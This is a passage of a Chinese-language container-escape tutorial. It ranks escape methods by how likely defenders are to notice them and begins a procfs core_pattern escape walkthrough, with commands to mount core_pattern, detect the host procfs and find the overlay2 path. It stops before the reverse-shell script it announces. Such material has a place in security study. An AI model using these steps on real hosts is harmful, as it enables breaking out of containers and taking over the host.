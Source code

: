 以目标 “获取宿主机上的配置文件” 为例，以下几种逃逸手法在容易在防御团队中暴露的概率从大到小，排序如下(部分典型手法举例，不同的 EDR 情况不同)：

1. mount /etc + write crontab
2. mount /root/.ssh + write authorized\_keys
3. old CVE/vulnerability exploit
4. write cgroup notify\_on\_release
5. write procfs core\_pattern
6. volumeMounts: / + chroot
7. remount and rewrite cgroup
8. websocket/sock shell + volumeMounts: /path

### 挂载宿主机 procfs 逃逸

**我们常说挂载宿主机 procfs 逃逸,其本质上因为宿主机挂载了procfs,导致我们可以像宿主机内写入一段恶意的payload,比如反弹shell,然后利用代码制造崩溃,触发内存转储,就会执行我们恶意的payload**

**什么是procfs**

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时。

**什么是core\_pattern文件?**

core\_pattern（核心转储模式）是Linux系统中的一个配置参数，用于定义在程序崩溃时生成核心转储文件的方式和位置。当一个程序发生崩溃（如段错误）时，操作系统会生成一个包含程序崩溃状态的核心转储文件，以便进行调试和故障排除

接下里就很好理解了,如果宿主机中的 procfs 挂载到容器中,我们就可以进行容器逃逸了

复现环境

```php
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
```

**如果返回了两个 core\_pattern 文件，那么很可能就是挂载了宿主机的 procfs**

这也是挂载procfs可以逃逸的核心点了

```php
find / -name core_pattern
```

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1701617638473-641ba941-ce31-422a-8f42-a999ef71ada5.png)

接下来我们需要找到docker在当前宿主机的绝对路径

```php
cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
```

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1701617796360-e3aba94f-f1d0-49e6-bfcc-94bd989bbf8e.png)

可以看出,当前的绝对路径为--&gt;去除work换成merged

/var/lib/docker/overlay2/a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged

接下来我们需要准备一个**反弹shell的脚本**以及一个可以**制造崩溃,触发内存转储的代码**

抽丝剥茧,我们先来准备一个反弹shell的脚本
